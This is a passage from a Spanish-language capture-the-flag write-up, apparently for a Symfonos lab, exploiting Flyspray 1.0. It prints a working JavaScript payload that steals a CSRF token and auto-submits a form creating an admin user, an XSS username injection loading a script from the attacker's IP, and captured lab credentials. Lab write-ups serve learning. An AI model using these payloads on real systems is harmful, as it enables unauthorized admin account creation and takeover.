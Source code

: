 ~~~ bash
Mambo Component com_flyspray < 1.0.1 - Rem | php/webapps/2852.txt
------------------------------------------- ---------------------------------
Shellcodes: No Results
~~~
- Estamos en la versión 1.0 de este software, por lo que revisando ex exploit `41918` extraje el código JavaScript necesario:
~~~ javascript
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form"action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="admon"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345"/>'
txt += '<input type="hidden" name="user_pass2" value="12345"/>'
txt += '<input type="hidden" name="real_name" value="admon"/>'
txt += '<input type="hidden" name="email_address" value="admon@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="admon@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
~~~

- La idea ahora sería cambiar nuestro username a algo así:
  ~~~ javascript
  "><script src = "http://192.168.17.128/doc.js"></script>
  ~~~ 
- Nos montamos un server en Python y esperamos a que el admin entre al blog, por detrás se creará un nuevo usuario:

  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/fd688fa7-60b4-4562-ad90-b25910b6aea5)

  - Y ahí lo tenemos, credenciales para el usuario `achilles:h2sBr9gryBunKdF9`, que podremos ingresar en Gitea desde el puerto 3000:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2878d2c1-c3e1-469e-b18e-9a260a34c933)
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b9b18852-0052-41b6-9486-697dc9eebf05)

  - Si entramos al proyecto `symfonos-blog` y revisamos el `index.php` podemos ver algo curioso:
    ~~~ php
    <?php
        while ($row = mysqli_fetch_assoc($result)) {
		$content = htmlspecialchars($row['text']);
		
		echo $content;
	
